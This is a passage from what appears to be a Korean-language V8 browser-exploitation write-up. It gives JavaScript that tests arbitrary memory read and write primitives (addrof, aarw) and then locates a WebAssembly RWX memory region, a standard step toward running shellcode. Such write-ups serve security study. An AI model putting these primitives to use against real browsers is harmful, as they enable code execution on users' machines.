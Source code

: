 ```js
// aar test
let tmp_obj_addr = v8_base + addrof(tmp_obj);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/5579beb5-a0dd-4282-a729-3b9ddf090101)

![image](https://github.com/user-attachments/assets/1de1296d-8ab9-4353-8133-4859412472b9)

```js
// aaw test
aarw(tmp_obj_addr - 1n, 0x4141414141414141n);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/f4eae188-24e2-46a7-b8a3-4941b4195cfb)

![image](https://github.com/user-attachments/assets/fccc2292-169c-468f-aaf3-49ff4dc64c51)

### Allocate RWX region

`WebAssembly.Instance`를 생성하면 Wasm module의 exported function을 실행하기 위해 RWX permission을 가진 메모리 영역이 할당된다.

```bash
echo "(module (func \$main) (export \"main\" (func \$main)))" > pwn.wat
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
```

![image](https://github.com/user-attachments/assets/95c514d5-e7e5-499b-8b93-438e9e369d17)

```js
// allocate rwx region
let wasm_code = new Uint8Array([0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x04, 0x01, 0x60, 0x00, 0x00, 0x03, 0x02, 0x01, 0x00, 0x07, 0x08, 0x01, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x04, 0x01, 0x02, 0x00, 0x0b]);
let wasm_module = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_module);

% DebugPrint(wasm_instance);
```

![image](https://github.com/user-attachments/assets/fc3b39b8-d7fa-4612-b507-73f0e659f696)

![image](https://github.com/user-attachments/assets/a035543f-7cbc-4ed9-a128-9878924265ff)

```js
// get address of rwx region
let wasm_instance_addr = v8_base + addrof(wasm_instance);
console.log(`[+] wasm_instance_addr == ${hex(wasm_instance_addr)}`);
let rwx = aarw(wasm_instance_addr - 1n + 0x60n);
console.log(`[+] rwx == ${hex(rwx)}`);
```
